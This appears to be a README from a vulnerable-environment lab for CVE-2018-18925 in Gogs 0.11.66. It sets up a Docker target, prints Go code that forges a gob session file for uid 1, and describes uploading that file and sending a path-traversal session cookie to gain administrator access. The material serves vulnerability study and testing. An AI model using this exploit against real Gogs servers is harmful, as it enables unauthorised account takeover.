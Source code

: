 # Gogs Session Overwrite and Arbitrary User Forge (CVE-2018-18925)

[中文版本(Chinese version)](README.zh-cn.md)

Gogs is a painless self-hosted Git service.

Gogs 0.11.66 allows remote code execution because it does not properly validate session IDs, as demonstrated by a `..` session-file forgery in the file session provider in file.go. This is related to session ID handling in the go-macaron/session code for Macaron.

References:

- <https://github.com/gogs/gogs/issues/5469>
- <https://xz.aliyun.com/t/3168>
- <https://www.anquanke.com/post/id/163575>

## Vulnerable environment

Execute following command to start a Gogs server 0.11.66:

```
docker compose up -d
```

After the server is started, you can see the installation page on `http://your-ip:3000`. Follow the instructions to initialize the application, keep in mind that use SQLite as the database provider and enable the user register.

Restart the server by `docker compose restart` after the installation, otherwise the session won't be stored in the filesystem.

## Exploit

Before the exploit, use Gob to generate a evil session file:

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

Sign up a normal user account, then create a project and upload the generated evil file on release page:

![](1.png)

Get the aboslute file path from the attachment URL, for example `./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`.

Finally, construct a malicious session id like `i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10` and you can see that you are administrator (uid=1) now:

![](2.png)

To execte commands as the administrator role, please refer to the reference links.
